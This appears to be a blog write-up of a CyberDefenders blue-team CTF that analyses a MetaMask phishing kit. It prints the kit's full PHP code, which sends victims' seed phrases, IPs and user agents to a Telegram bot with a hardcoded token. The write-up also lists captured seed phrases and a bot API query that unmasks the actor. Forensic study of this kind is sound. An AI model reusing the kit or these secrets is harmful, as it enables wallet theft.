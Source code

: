 # Solution

Hi,

recently I have finished challenge [grabthephisher](https://cyberdefenders.org/blueteam-ctf-challenges/95) on cyber defenders.org. Let's check how to solve those puzzles.

### 1 Which wallet is used for asking the seed phrase?

WWW display 3 wallets:

[![image-1658854441638.png](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)

I checked structure of web site directory. Only one directory contained suspicious PHP script:

```
c75-GrabThePhisher\pankewk\metamask\metamask.php
```

### 2 What is the file name that has the code for the phishing kit?

Suspicious file contains script written in PHP to gather intelligence and data from user.

### 3 In which language was the kit written?

Script is written in PHP language.

### 4 <span class="fw-bold">What service does the kit use to retrieve the victim's machine information?</span>

<span class="fw-bold">Code of the script:</span>

```php
<?php

$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
$date = date("m.d.Y"); //aaja


/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */


    $message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> " . $_POST["data"] . "
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";


sendTel($message);  
	
    function sendTel($message){
		$id = "5442785564"; 
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
		file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	

    }
    
    
    ?>
    
```

Line 3 shows the phisher is using Sypex Geo service to gather intelligence

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
```

### 5 How many seed phrases were already collected?

Line 36 shows that all gathered data are stored in root directory of web page in log directory in log.txt file.

```php
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

File log.txt contains 3 entries:

```php
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

### 6 <span class="fw-bold">Write down the seed phrase of the most recent phishing incident?</span>

<span class="fw-bold">Line 36 shows that script is appending data in log file - FILE\_APPEND. It means that, the last written value will be in last position.</span>

### <span class="fw-bold">7 Which medium had been used for credential dumping?</span>

<span class="fw-bold">Line 34 shows that script is using telegram bot api.</span>

```php
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
```

### 8 <span class="fw-bold">What is the token for the channel?</span>  


<span class="fw-bold">Line 33 contains variable named $token with value:</span>

```php
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

### 9 What is the chat ID of the phisher's channel?

Line 32 contains variable named $id with value:

```php
		$id = "5442785564"; 
```

### 10 <span class="fw-bold">What are the allies of the phish kit developer?</span>

<span class="fw-bold">Author of phishing script left comment in phishing kit file. Lines 10-18 contains this message. At the end of it author signed message:</span>

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```

### 11 What is the full name of the Phish Actor?

To answer this I had to get familiar with the telegram bot API. Full description of API is here: [https://core.telegram.org/bots/api#available-methods](https://core.telegram.org/bots/api#available-methods)

I used API method getChat.

All queries to the Telegram Bot API must be served over HTTPS and need to be presented in this form: `https://api.telegram.org/bot<token>/METHOD_NAME`. Like this for example:

```html
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

Response from Telegram API:

```json
{
	"ok": true,
	"result": {
		"id": 5442785564,
		"first_name": "Marcus",
		"last_name": "Aurelius",
		"username": "pumpkinboii",
		"type": "private",
		"photo": {
			"small_file_id": "AQADBQADCbQxG1rVIVYACAIAAxxRakQBAAM7fQl4M-jTyikE",
			"small_file_unique_id": "AQADCbQxG1rVIVYAAQ",
			"big_file_id": "AQADBQADCbQxG1rVIVYACAMAAxxRakQBAAM7fQl4M-jTyikE",
			"big_file_unique_id": "AQADCbQxG1rVIVYB"
		}
	}
}
```

Answer is concatenation of first\_name and last\_name from lines 5 and 6 in the response.

### 12 <span class="fw-bold">What is the username of the Phish Actor?</span>

<span class="fw-bold">Username is present in line 7 of request response.</span>

### END

It was very fun challenge, if you like my solutions read other posts on the blog.

Thank you for reading, have a nice day !
